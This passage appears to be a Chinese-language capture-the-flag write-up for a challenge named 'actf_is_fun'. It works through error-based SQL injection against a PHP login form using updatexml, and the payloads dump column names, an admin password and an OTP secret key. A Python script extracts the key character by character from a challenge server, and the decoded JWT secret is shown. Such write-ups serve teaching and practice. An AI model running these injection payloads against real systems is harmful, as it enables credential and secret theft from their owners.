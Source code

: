 获取列名

```
username=1' and (updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='actf_is_fun' and table_name='users'),0x7e),1))#&password=123456、

id,username,password,otp_secret
```

先查username和password，登录进去就是我们万能密码一样的

```
username=1' and (updatexml(1,concat(0x7e,(select group_concat(password) from actf_is_fun.users),0x7e),1))#&password=123456

admin和hgMMDHmE6qn#U9
```

查另一个，因为一次只能查部分字段，所以加个substr得到字段名为`otp_secret_key`

```
username=1' and (updatexml(1,concat(0x7e,(select group_concat(otp_secret_key) from actf_is_fun.users),0x7e),1))#&password=123456

eyJhbGciOiJIUzI1NiIsInR5cCI6Ikp
```

给出脚本

```python
import requests

url="http://1.14.71.254:28809/index.php"


for i in range(1,180):
    user = "1'and(select updatexml(1,concat(0x7e,(select substr(group_concat(otp_secret_key),{},1)from users)),0x7e))#".format(i)
    data = {
        'password':123,
        'username':user
    }
    res = requests.post(url=url,data=data).text
    index = res.index("~")
    print(res[index+1:index+2],end="")
```

得到

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzZWNyZXQiOiJJRkJWSVJTN01KU1hJNURGT0pQV0MzVEVMNVJHSzVEVU1WWkNDSUpCIiwiaWF0IjoxNTE2MjM5MDIyfQ.AQSSxyPihDP8dhVEMpaWrSv2scrEEc2HOmqfAwXqWLY
```

base64解密后

```
{"alg":"HS256","typ":"JWT"}{"secret":"IFBVIRS7MJSXI5DFOJPWC3TEL5RGK5DUMVZCCIJB","iat":1516239022} I,r>(C?�aTC)ijҿk�A�s���0^��
```
